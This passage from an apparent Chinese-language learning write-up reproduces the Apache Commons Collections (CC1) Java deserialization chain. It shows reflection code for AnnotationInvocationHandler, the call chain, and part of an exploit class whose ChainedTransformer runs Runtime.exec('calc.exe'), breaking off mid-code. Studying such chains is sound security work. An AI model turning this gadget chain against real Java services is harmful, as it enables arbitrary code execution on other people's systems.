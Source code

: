 最后一个if判断,如果不是memberValues值的实例,并且不是ExceptionProxy的接口就可以调用setValue方法

不过要注意AnnotationInvocationHandler虽然有序列化接口,但是是一个内部类,不能直接获取,需要利用反射的方法

![image-20211201231855031](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211201231855031.png)

```
Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = T0WN.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);//构造函数并不是public
Object instance = constructor.newInstance(Retention.class,outmap);
```

## 漏洞复现

大致的调用链

```
sun.reflect.annotation.AnnotationInvocationHandler.readObject()
	Map.setValue()
		TransformedMap.checkValue()
			ChainedTransformer.transform()
				达到任意代码执行的目的
```

exp

```
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;
import java.io.*;

public class Test1 {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", null
                }
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, null
                }
                ),
                new InvokerTransformer("exec", new Class[]{
                        String.class}, new Object[]{
                        "calc.exe"
                }
                )
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value","key");
```